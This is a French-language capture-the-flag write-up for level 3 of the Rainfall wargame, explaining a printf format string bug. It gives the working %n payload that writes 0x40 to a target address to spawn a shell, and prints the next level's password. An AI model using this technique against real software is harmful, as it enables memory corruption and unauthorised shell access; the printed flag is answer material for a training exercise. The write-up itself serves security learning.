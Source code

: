 # Rainfall - Flag 3

---

## 🧠 Vulnérabilité exploitée

Mauvaise utilisation de `printf` avec la possibilité d’utiliser le format `%n`, qui écrit le nombre de caractères imprimés à une adresse arbitraire. Cela permet de modifier une valeur en mémoire sans fonction d’écriture explicite.

---

## 🔍 Analyse du binaire

La fonction `v()` lit une chaîne avec `fgets(buf, 512, stdin)` puis l’affiche sans formatage :

```c
printf(buf);
```

Ceci permet à un attaquant de spécifier ses propres formats, comme `%x` ou `%n`.

Dans le code assembleur, on remarque :

```asm
mov    0x804988c,%eax
cmp    $0x40,%eax
```

Si la valeur stockée à `0x804988c` vaut `0x40` (64 en décimal), `system("/bin/sh")` est exécuté.

---

## 🛠️ Construction du payload

### Objectif

* Écrire la valeur `0x40` à l’adresse `0x804988c` avec `%n`

### Payload utilisé

```bash
(python -c 'print("\x8c\x98\x04\x08" + "%64d%4$n")'; cat) | ./level3
```

**Détail :**

* `\x8c\x98\x04\x08` est l’adresse cible (little endian)
* `%64d` imprime 64 caractères
* `%4$n` écrit 64 à l’adresse fournie en 4e argument (stack)

---

## 🔮 Shell obtenu

```bash
whoami
# level4

cat /home/user/level4/.pass
# b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## ✅ Récapitulatif

* Exploitation d’une vulnérabilité *format string* via `printf(buf)`
* Utilisation de `%n` pour écrire `0x40` en mémoire
* Shell obtenu et flag récupéré
